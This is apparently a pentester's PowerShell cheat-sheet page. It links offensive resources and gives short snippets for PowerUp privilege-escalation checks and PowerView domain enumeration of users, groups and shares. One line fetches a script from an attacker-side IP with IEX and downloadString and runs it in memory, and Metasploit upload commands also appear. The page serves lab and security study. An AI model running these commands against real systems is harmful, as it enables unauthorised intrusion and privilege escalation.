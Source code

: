 # PS

| [https://www.puckiestyle.nl/powershell/](https://www.puckiestyle.nl/powershell/)                                                       |
| -------------------------------------------------------------------------------------------------------------------------------------- |
| [https://www.infosecmatter.com/powershell-commands-for-pentesters/](https://www.infosecmatter.com/powershell-commands-for-pentesters/) |
| [https://www.puckiestyle.nl/week-of-ps-shells/](https://www.puckiestyle.nl/week-of-ps-shells/)                                         |



## Offensive Security Scripts

[https://github.com/IAMinZoho/OFFSEC-PowerShell](https://github.com/IAMinZoho/OFFSEC-PowerShell)

## Powershell on Kali

Installing powershell and using pswh

## PowerUp

[https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/](https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)

A powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

```powershell
git clone https://github.com/PowerShellMafia/PowerSploit.git
# Edit PowerUp.ps1 and add Invoke-AllChecks at the end of the code.
PS C:\> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.20/PowerUp.ps1')
# ****METASPLOIT
msf > upload PowerUp.ps1
msf > load powershell
PS > .\PowerUp.ps1
```

## PowerView

{% code overflow="wrap" %}
```powershell
# TIPS AND TRICKS
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
PS > .\PowerView.ps1 # import the PowerView module
Get-NetComputer -fulldata | select operatingsystem # gets a list of all operating systems on the domain
Get-NetUser | select cn # gets a list of all users on the domain
# Enumerate the domain groups
Get-NetGroup -GroupName *admin*
# Enumerate shares
Get-SmbShare
```
{% endcode %}
